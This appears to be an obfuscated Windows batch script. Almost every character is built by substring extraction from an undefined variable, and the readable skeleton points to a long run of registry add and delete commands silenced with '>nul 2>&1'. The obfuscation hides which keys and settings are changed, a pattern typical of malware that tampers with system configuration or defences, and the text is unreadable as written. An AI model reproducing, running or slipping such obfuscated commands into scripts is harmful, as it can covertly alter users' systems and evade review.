"%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~50,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~43,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~8,1%\%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~50,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~43,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~8,1% %维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~3,1% %维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~35,1% %维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~36,1%" /%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~23,1%%维色豆克埃维饿维克爱:~49,1% /%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~10,1% /%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~4,1% "%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1% %维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~10,1% %维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~10,1%" /%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~23,1%%维色豆克埃维饿维克爱:~49,1% /%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~10,1% /%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~4,1% "%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1% %维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~0,1%" /%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~23,1%%维色豆克埃维饿维克爱:~49,1% /%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~10,1% /%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~4,1% "%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1% %维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~8,1% %维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~23,1%%维色豆克埃维饿维克爱:~49,1% /%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~13,1%%维色豆克埃维饿维克爱:~10,1% /%维色豆克埃维饿维克爱:~16,1%%维色豆克埃维饿维克爱:~4,1% "%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1% %维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1% %维色豆克埃维饿维克爱:~42,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~31,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~42,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%\%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~50,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~32,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~0,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~30,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~8,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~36,1%" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~1,1%%维色豆克埃维饿维克爱:~3,1%\%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~26,1%%维色豆克埃维饿维克爱:~11,1%\%维色豆克埃维饿维克爱:~22,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~38,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~42,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%\%维色豆克埃维饿维克爱:~27,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~41,1%" /%维色豆克埃维饿维克爱:~30,1% "%维色豆克埃维饿维克爱:~48,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~35,1%%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~36,1%" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~27,1%\*\%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~50,1%\%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~50,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~12,1%" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~27,1%\%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~7,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~35,1%\%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~50,1%\%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~50,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~44,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~49,1%\%维色豆克埃维饿维克爱:~46,1%%维色豆克埃维饿维克爱:~12,1%%维色豆克埃维饿维克爱:~12,1%" /%维色豆克埃维饿维克爱:~26,1% >%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~15,1%%维色豆克埃维饿维克爱:~9,1% 2>&1 
%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~13,1% %维色豆克埃维饿维克爱:~8,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1% "%维色豆克埃维饿维克爱:~28,1%%维色豆克埃维饿维克爱:~5,1%%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~27,1%\%维色豆克埃维饿维克爱:~21,1%%维色豆克埃维饿维克爱:~40,1%%维色豆克埃维饿维克爱:~6,1%%维色豆克埃维饿维克爱:~30,1%%维色豆克埃维饿维克爱:~10,1%\%维色豆克埃维饿维克爱:~49,1%%维色豆克埃维饿维克爱:~36,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~9,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~50,1%\%维色豆克埃维饿维克爱:~29,1%%维色豆克埃维饿维克爱:~47,1%%维色豆克埃维饿维克爱:~41,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~50,1%%维色豆克埃维饿维克爱:~11,1%%维色豆克埃维饿维克爱:~3,1%%维色豆克埃维饿维克爱:~10,1%%维色豆克埃维饿维克爱:~41,1%